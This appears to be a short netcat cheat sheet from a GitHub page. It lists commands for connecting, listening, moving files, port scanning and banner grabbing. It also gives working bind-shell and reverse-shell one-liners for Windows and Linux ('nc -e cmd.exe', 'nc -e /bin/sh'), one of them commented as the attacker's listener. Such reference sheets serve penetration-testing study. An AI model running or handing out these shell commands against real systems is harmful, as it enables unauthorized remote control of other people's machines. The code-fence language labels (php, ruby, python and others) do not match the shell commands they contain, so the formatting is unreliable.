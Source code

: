 # Connect to a TCP Port

```shell
nc -nv <IP Address> <Port>
```
# Listen on a TCP Port

```sh
nc -lvp <port>
```
# Connect and receive a HTTP Page

```html
nc -nv <IP Address> 80
HEAD / HTTP/1.1

```
# Transferring a File
```perl
nc -lvp 4444 >output.txt               # Receiving End
nc -nv <IP Address> < input.txt   # Sending End
```
# Set up a Netcat Bind Shell (Windows)
```php
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444           # Connect to the shell
```
# Set up a Netcat Bind Shell (Linux)
```javascript
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444           # Connect to the shell
```
# Set up a Netcat Reverse Shell (Windows)
```python
nc -lvp 443                                             # Attacker listening for connection
nc -nv <IP Address> 443 -e cmd.exe
``` 
# Set up a Netcat Reverse Shell (Linux)
```ruby
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

# Netcat as a Port Scanner
```sh
nc -z <IP Address> <Port Range in abc - xyz format>
```
# Netcat as a Banner Grabber
```sh
echo "" | nc -nv -w1 <IP Address> <Ports>
```

